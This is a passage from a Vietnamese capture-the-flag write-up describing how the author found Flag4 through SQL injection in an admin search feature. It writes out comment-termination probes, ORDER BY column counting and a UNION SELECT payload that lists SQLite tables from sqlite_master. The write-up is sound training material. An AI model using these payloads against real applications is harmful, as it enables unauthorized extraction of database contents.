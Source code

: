 = Xem tất cả các bài viết của Admin có Private = Yes ta thấy có flag:
<img width="1074" height="403" alt="image" src="https://github.com/user-attachments/assets/cd38c1d8-9f76-4cf4-84d2-0175ca2d3a6f" />

***Flag4: FLAG được ẩn trong một bảng của cơ sở dữ liệu.***

= Vì đề bài nói là được ẩn trong 1 bảng của CSDL => SQLi

= Sau khi vào tài khoản admin, có thêm chức năng "Search" mà tài khoản thường không xem được. 

= Thử test với 'flag':

<img width="835" height="459" alt="image" src="https://github.com/user-attachments/assets/e5c8e600-32d4-4b96-808e-4e2e7215be86" />

= flag":

<img width="798" height="425" alt="image" src="https://github.com/user-attachments/assets/f1c3fcf8-d7b8-497b-bf0c-9a31eda1fc52" />

= Nhưng khi test với flag' thì hiện lỗi nhưng chưa khẳng định được gì, test tiếp:
<img width="956" height="208" alt="image" src="https://github.com/user-attachments/assets/6e9b5aa5-0b73-469f-b062-805683fa6535" />

>Mục đích của dấu ' thường là : admin'-- thì khi query sẽ trở thành 'admin'--'

= Khi nhập flag'-- khi query sẽ thành 'flag'--' . Vì sau -- mọi thứ sẽ được coi là comment nên hệ thống sẽ hiểu là flag và xuất hiện `Secure FLag`:
<img width="774" height="445" alt="image" src="https://github.com/user-attachments/assets/309731d7-4a8b-4704-a71f-e11ca9465baa" />

= Khi nhập tiếp flag'-- - mà hệ thống vẫn hiện `Secure Flag` chứng tỏ bị nhiễm SQLi. 

=> Đầu tiên, xác định số cột và dùng hệ quản trị csdl gì:

`flag' order by <number>-- -`

= Thay số lần lượt từ 1 vào đến khi nào gặp lỗi thì sẽ có n-1 cột.

<img width="955" height="212" alt="image" src="https://github.com/user-attachments/assets/d446e544-0323-42f8-b70f-44011a5c82ce" />

=> `Vậy có 3 cột. và dùng SQLite`

=> Tìm các cột được hiển thị ra ngoài:

<img width="712" height="474" alt="image" src="https://github.com/user-attachments/assets/24894035-769f-42f8-8eb4-7b7667f339f5" />

=> Cột số 2 sẽ hiển thị cái mình muốn. Vây giờ lấy tên các bảng để xác định xem flag ở chỗ nào

```
flag' union select 1,group_concat(tbl_name),3 FROM sqlite_master WHERE  type='table' and tbl_name NOT like 'sqlite_%'-- -
```

<img width="725" height="403" alt="image" src="https://github.com/user-attachments/assets/143396d2-c4ba-4535-aec3-585b1c0e3fc0" />

=> Vậy có tên các bảng: user, flag, blog, feedback.

=> Xem bảng flag có những cột gì:

<img width="845" height="923" alt="image" src="https://github.com/user-attachments/assets/b28c1f23-b6b8-477a-9401-3b4dccf11be0" />
